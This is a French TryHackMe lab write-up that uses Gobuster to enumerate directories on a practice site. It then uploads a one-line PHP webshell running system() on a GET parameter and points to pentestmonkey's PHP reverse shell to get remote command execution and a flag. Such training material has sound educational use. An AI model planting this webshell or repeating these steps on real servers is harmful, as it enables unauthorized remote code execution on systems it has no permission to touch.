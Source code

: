 
# Gobuster

## Utilisation sur THM

**Gobuster** est un outil utilisé principalement pour effectuer des attaques de **dictionnaire** sur des serveurs web. Il sert à **découvrir des répertoires, des fichiers, ou des sous-domaines** cachés sur un site web. Gobuster fonctionne en envoyant des requêtes HTTP avec des chemins (URLs) issus d'un fichier de dictionnaire, afin de déterminer s'il existe des ressources accessibles mais non visibles immédiatement.

### Exemple d'utilisation:

Mise en contexte du challenge:

- un site web fournit par THM
- utilisation de gobuster pour effectuer un scan
- le but: upload des fichier (en php) afin qu'ils soient interpréter par le serveur et permettre un RCE

Le site:

![[Pasted image 20250312110409.png]]

Lancement d'un scan Gobuster:


```
gobuster dir -u http://shell.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Cette commande va permettre d'énumérer des répertoires précis d'un site web à l'aide d'une liste.

![Challenge gobuster 1](../../images/Challenge%20gobuster%201.png)

Ce qui va être utile ici est /ressources

Avant de voir ce chemin, il faut tenter d'upload un fichier:

![Challenge gobuster 1](../../images/Challenge%20gobuster%203.png)

Upload d'un webshell, contenu:

```
<?php       
echo system($_GET["cmd"]);   
?>
```

Permet d'exécuter les commandes par GET:

Il est également possible d'utiliser un reverse shell:

J'ai utilisé celui de pentestMonkey:

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Le principe est le même, il faut upload son script sur le serveur et l'exécuter. 

![Challenge gobuster 1](../../images/Challenge%20gobuster%203.png)

![Challenge gobuster 1](../../images/Challenge%20gobuster%204.png)

![Challenge gobuster 1](../../images/Challenge%20gobuster%205.png)

On trouve le flag comme indiqué dans /var/www/

![Challenge gobuster 1](../../images/Challenge%20gobuster%202.png)
